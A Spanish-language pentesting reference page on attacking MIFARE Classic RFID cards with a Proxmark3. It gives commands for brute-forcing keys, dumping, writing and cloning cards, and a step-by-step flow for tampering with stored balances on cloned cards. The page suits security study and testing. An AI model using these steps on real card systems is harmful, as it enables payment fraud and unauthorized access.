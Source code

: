 # Proxmark 3

{{#include ../../banners/hacktricks-training.md}}

## Atacar sistemas RFID con Proxmark3

Lo primero que necesitas es tener un [**Proxmark3**](https://proxmark.com) y [**install the software and it's dependencie**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)[**s**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux).

### Atacar MIFARE Classic 1KB

Tiene **16 sectores**, cada uno de ellos tiene **4 bloques** y cada bloque contiene **16B**. El UID está en sector 0 block 0 (y no puede ser alterado).\
Para acceder a cada sector necesitas **2 keys** (**A** and **B**) que se almacenan en **block 3 of each sector** (sector trailer). El sector trailer también almacena los **access bits** que dan los permisos de **read and write** sobre **cada bloque** usando las 2 keys.\
Tener 2 keys es útil para dar permisos de lectura si conoces la primera y de escritura si conoces la segunda (por ejemplo).

Se pueden realizar varios ataques
```bash
proxmark3> hf mf #List attacks

proxmark3> hf mf chk *1 ? t ./client/default_keys.dic #Keys bruteforce
proxmark3> hf mf fchk 1 t # Improved keys BF

proxmark3> hf mf rdbl 0 A FFFFFFFFFFFF # Read block 0 with the key
proxmark3> hf mf rdsc 0 A FFFFFFFFFFFF # Read sector 0 with the key

proxmark3> hf mf dump 1 # Dump the information of the card (using creds inside dumpkeys.bin)
proxmark3> hf mf restore # Copy data to a new card
proxmark3> hf mf eload hf-mf-B46F6F79-data # Simulate card using dump
proxmark3> hf mf sim *1 u 8c61b5b4 # Simulate card using memory

proxmark3> hf mf eset 01 000102030405060708090a0b0c0d0e0f # Write those bytes to block 1
proxmark3> hf mf eget 01 # Read block 1
proxmark3> hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f # Write to the card
```
El Proxmark3 permite realizar otras acciones, como **eavesdropping** de una **Tag to Reader communication**, para intentar encontrar datos sensibles. En esta tarjeta podrías simplemente sniff la comunicación y calcular la clave usada porque las **operaciones criptográficas utilizadas son débiles** y, conociendo el texto plano y el texto cifrado, puedes calcularla (`mfkey64` tool).

#### MiFare Classic flujo rápido para el abuso de valor almacenado

Cuando los terminales almacenan saldos en tarjetas Classic, un flujo típico de extremo a extremo es:
```bash
# 1) Recover sector keys and dump full card
proxmark3> hf mf autopwn

# 2) Modify dump offline (adjust balance + integrity bytes)
#    Use diffing of before/after top-up dumps to locate fields

# 3) Write modified dump to a UID-changeable ("Chinese magic") tag
proxmark3> hf mf cload -f modified.bin

# 4) Clone original UID so readers recognize the card
proxmark3> hf mf csetuid -u <original_uid>
```
Notas

- `hf mf autopwn` orquesta ataques estilo nested/darkside/HardNested, recupera keys y crea dumps en la client dumps folder.
- Escribir block 0/UID solo funciona en tarjetas magic gen1a/gen2. Las tarjetas Classic normales tienen UID de solo lectura.
- Muchas implementaciones usan Classic "value blocks" o simple checksums. Asegúrate de que todos los campos duplicados/complementados y los checksums sean consistentes después de editar.

Consulta una metodología de mayor nivel y mitigaciones en:

{{#ref}}
pentesting-rfid.md
{{#endref}}

### Comandos RAW

Los sistemas IoT a veces usan **nonbranded or noncommercial tags**. En este caso, puedes usar Proxmark3 para enviar custom **raw commands to the tags**.
```bash
proxmark3> hf search UID : 80 55 4b 6c ATQA : 00 04
SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: WEAK
Valid ISO14443A Tag Found - Quiting Search
```
Con esta información podrías intentar buscar información sobre la tarjeta y sobre la forma de comunicarte con ella. Proxmark3 permite enviar comandos raw como: `hf 14a raw -p -b 7 26`

### Scripts

El software Proxmark3 incluye una lista preinstalada de **scripts de automatización** que puedes usar para realizar tareas simples. Para obtener la lista completa, usa el comando `script list`. Luego, usa el comando `script run`, seguido del nombre del script:
```
proxmark3> script run mfkeys
```
Puedes crear un script para **fuzz tag readers**: si copias los datos de una **valid card**, basta con escribir un **Lua script** que **randomize** uno o más **bytes** aleatorios y comprobar si el **reader crashes** en alguna iteración.

## Referencias

- [Proxmark3 wiki: HF MIFARE](https://github.com/RfidResearchGroup/proxmark3/wiki/HF-Mifare)
- [Proxmark3 wiki: HF Magic cards](https://github.com/RfidResearchGroup/proxmark3/wiki/HF-Magic-cards)
- [NXP statement on MIFARE Classic Crypto1](https://www.mifare.net/en/products/chip-card-ics/mifare-classic/security-statement-on-crypto1-implementations/)
- [NFC card vulnerability exploitation in KioSoft Stored Value (SEC Consult)](https://sec-consult.com/vulnerability-lab/advisory/nfc-card-vulnerability-exploitation-leading-to-free-top-up-kiosoft-payment-solution/)

{{#include ../../banners/hacktricks-training.md}}
